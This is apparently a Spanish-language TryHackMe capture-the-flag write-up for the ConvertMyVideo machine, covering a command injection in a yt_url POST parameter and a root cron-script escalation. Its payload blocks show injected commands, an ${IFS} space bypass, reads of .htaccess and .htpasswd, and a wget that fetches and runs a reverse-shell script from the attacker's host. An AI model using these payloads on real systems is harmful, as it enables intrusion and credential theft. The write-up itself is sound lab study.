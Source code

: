 ```yaml
---
layout: single
title: ConvertMyVideo - TryHackMe
excerpt: "Debemos encontrar 1 bandera. Primero, a partir de un escaneo de puertos pude saber que había un servidor web que alojaba una aplicación web que constaba de un formulario con un campo asociado a la funcionalidad de convertir videos en archivos de audio en formato MP3. Además, el campo del formulario aceptaba como valor el identificador del video. Luego, a partir del análisis de un script JavaScript insertado en el código fuente, se logró saber que el identificador del video era incorporado en una URL dentro de un parámetro llamado `yt_url` que formaba parte de la solicitud POST. Ademas,se supo que el cuerpo de la respuesta estaba en formato JSON, y el valor de una clave era reflejada en la página de la aplicación web. Se logro inyectar comandos en el parámetro `yt_url` de la solicitud POST con el fin de observar los resultados en el valor de la clave “output” de la data JSON de la respuesta HTTP. Mediante esta vulnerabilidad se logró ejecutar una reverse Shell. Luego, en la escalada vertical, aproveche que un script ejera ejecutado de manera periodica y automatizada con los privilegios de root."
date: 2024-01-02	
classes: wide
header:
  teaser: /assets/images/Youtube1/image003.png
  teaser_home_page: true
  icon: /assets/images/descarga7.webp
categories:
  - TryHackMe
  - ctf
tags:
  - Linux  
  - OpenVPN
  - Nmap
  - Command Injection
  - JavaScript
  - jQuery
  - Burp Suite
  - John The Ripper
  - Hashcat
  - HTML
  - HTTP
  - pspy64
---
```


![](/assets/images/Youtube1/image001.png)

## SUMMARY

Debemos encontrar 1 bandera. Primero, a partir de un escaneo de puertos pude saber que había un servidor web que alojaba una aplicación web que constaba de un formulario con un campo asociado a la funcionalidad de convertir videos en archivos de audio en formato MP3. Además, el campo del formulario aceptaba como valor el identificador del video. Luego, a partir del análisis de un script JavaScript insertado en el código fuente, se logró saber que el identificador del video era incorporado en una URL dentro de un parámetro llamado `yt_url` que formaba parte de la solicitud POST. Ademas,se supo que el cuerpo de la respuesta estaba en formato JSON, y el valor de una clave era reflejada en la página de la aplicación web. Se logro inyectar comandos en el parámetro `yt_url` de la solicitud POST con el fin de observar los resultados en el valor de la clave “output” de la data JSON de la respuesta HTTP. Mediante esta vulnerabilidad se logró ejecutar una reverse Shell. Luego, en la escalada vertical, aproveche que un script ejera ejecutado de manera periodica y automatizada con los privilegios de root.

## FASE RECONOCIMIENTO ACTIVO
En este caso debemos acceder al sistema destino y obtener la bandera. Primero, empezaremos utilizando el comando openvpn y el archivo de configuración OpenVPN con el fin de establecer una conexión VPN y poder acceder a los laboratorios donde están las máquinas virtuales y vulnerables.

![](/assets/images/Youtube1/image005.png)

Además, la plataforma de Tryhackme nos muestra la dirección IP de la máquina ConvertMyVideo.

![](/assets/images/Youtube1/image007.png)

## FASE ESCANEO Y ENUMERACION
Ahora pasaremos a la fase de Escaneo y Enumeración con el fin de poder escanear los puertos del sistema destino. Además, obtendremos los servicios que se han levantado en los puertos abiertos, las versiones de los servicios, y el sistema operativo del sistema destino.

![](/assets/images/Youtube1/image009.png)

Los resultados que obtenemos son:
- Un programa servidor SSH que se ejecuta en el puerto 22.
- Un programa servidor HTTP que se ejecuta en el puerto 80, y que aloja un sitio web.

Ahora observaremos las caracteristicas y funcionalidades que pueda presentar el sitio web desde mi navegador web.

![](/assets/images/Youtube1/image011.png)

![](/assets/images/Youtube1/image013.png)

![](/assets/images/Youtube1/image015.png)

Podemos observar que logramos encontrar una etiqueta o eemento HTML script para vincular un archivo JavaScript externo. Ademas, si analizamos el contenido de tal archivo JavaScript nos topamos con alguna parte de la logica seguida para convertir los videos de Youtube en archiivos de audio en formato MP3. Esta logica consiste en enviar una solicitud POST con un parametro llamado “yt_url” que va contener una URL con un parametro GET “v” cuyo valor va ser el que ingresamos en el campo “ytid”. Luego, la respuesta de esta solicitud, su cuerpo va estar en formato JSON, y se extraera el valor de la clave status con el fin de compararlo con el valor 0 y 1. Si es “0”, se establecera un elmento de anclaje con un mensaje “Download MP3” que va tener una URL habilitada. Caso contrario, se establecer un mensaje de error.

Ahora lo que se me viene a la mente es capturar la respuesta HTTP del servidor con su cuerpo en formato JSON para poder observar todas los pares clave-valor. Para ello utilizaremos Burp Suite.

![](/assets/images/Youtube1/image017.png)

![](/assets/images/Youtube1/image019.png)

![](/assets/images/Youtube1/image021.png)

![](/assets/images/Youtube1/image023.png)

Podemos observar que la data consta de varias claves con sus respectivos, y alteramos el valor de la clave status a “0” con el fin de obtener el elemento anclaje con el mensaje “Download MP3” y con una URL para descargar el audio en formato MP3.

## FASE GANAR ACCESO O EXPLOTACION O HACKING
Ahora intentaremos modificar la URL del parametro yt_url con el fin de poder saber si podemos obtener otros valores en las demas claves.

```
Payload: yt_url=https://www.youtube.com/watch?v=11;id;
```
![](/assets/images/Youtube1/image025.png)

```
Payload: yt_url=https://www.youtube.com/watch?v=11;ls -la;
```
![](/assets/images/Youtube1/image027.png)

Podemos observar que logramos visualizar el resultado del comando “id” en el valor de la clave “output”. Por lo tanto, esta funcionalidad de conversion de videos a archivos de audio en formato MP3 es vulnerable a Command Injection. Ademas, podemos observar en el segundo payload probado, que hay un problema con los espacios en blanco que hay entre los argumentos de los comandos inyectados ya que no obtenemos el resultado esperado.

Ahora tendremos que buscar en Internet la manera de evitar usar espacios blancos entre comandos y sus argumentos.

![](/assets/images/Youtube1/image029.png)

![](/assets/images/Youtube1/image031.png)

Podemos observar que logramos solucionar el problemas de los epsacios en blanco con el uso de ${IFS}. Ademas, podemos observar que hay un directorio llamado admin, y un archivo oculto llamado “.htaccess” que viene a ser un archivo de configuracion en los servidores web que ejecutan el software Apache. Ademas, es usado para proteger directorios y sus subdirectorios con mecanismos de autenticacion como logins.

Ahora accedremos al directorio admin a traves de mi navegador web.

![](/assets/images/Youtube1/image033.png)

```
Payload: yt_url=https://www.youtube.com/watch?v=11;cat${IFS}/var/www/html/admin/.htaccess;
```
![](/assets/images/Youtube1/image035.png)

```
Payload: yt_url=https://www.youtube.com/watch?v=11;cat${IFS}/var/www/html/admin/.htpasswd;
```
![](/assets/images/Youtube1/image037.png)

Podemos observar que este directorio esta protegido por un mecanismo de autneitcacion que ha sido aplicado mediante una configuracion en el archivo “.htaccess”. Ademas, podemos observar la ruta hacia el archivo oculto “.httpasswd” que contiene las credenciales para autenticarse en el mecanismo de autenticacion, pero necesitamos crackear el hash para obtener el password en formato texto plano.

![](/assets/images/Youtube1/image039.png)

![](/assets/images/Youtube1/image041.png)

Como se puede observar no logre crackear el hash ni con John The Ripper ni con Hashcat, y desconozco la causa. Po ral razon, ejecutaremos un comando a traves de la vulnerabilidad Command Injection con el cargar un script Shell en el sistema destino, y luego ejecutarlo para generar una reverse shell.

```
Payload: yt_url=https://www.youtube.com/watch?v=11;wgett${IFS}http://10.8.123.194/reverse.sh;
Payload: yt_url=https://www.youtube.com/watch?v=11; chmod${IFS}777${IFS}reverse.sh;
Payload: yt_url=https://www.youtube.com/watch?v=11; ./reverse.sh;
```
![](/assets/images/Youtube1/image043.png)

![](/assets/images/Youtube1/image045.png)

De esta manera logramos ganar accesso al sistema destino. Ahora realizaremos un tratamiento de la reverse shell para que sea mas estable e interactiva.

![](/assets/images/Youtube1/image047.png)

## FASE ESCALADA PRIVILEGIOS
Ahora es momento de buscar vectores de escalada de privilegios vertical en el sistema de archivos de manera manual.

![](/assets/images/Youtube1/image049.png)

![](/assets/images/Youtube1/image051.png)

Luego, de enumerar los vectores de escalada de privilegios mas comunes como los archivos con el bit SUID habilitado, las tareas cron, la version del sudo,..etc. Me encontre con un script Shell que era ejecutado de manera periodica y automatizada con los pirivilegios de root. Ademas, tenemos los permisos de escritura sobre el por lo que podemos modificar su contenido con el fin de ejecutar una reverse shell con los priivlegios de root.

![](/assets/images/Youtube1/image053.png)

![](/assets/images/Youtube1/image055.png)

![](/assets/images/Youtube1/image057.png)

De esta manera realizamos una escalada de privilegio vertical siendo el usuario root, y logramos obtener la flag. 











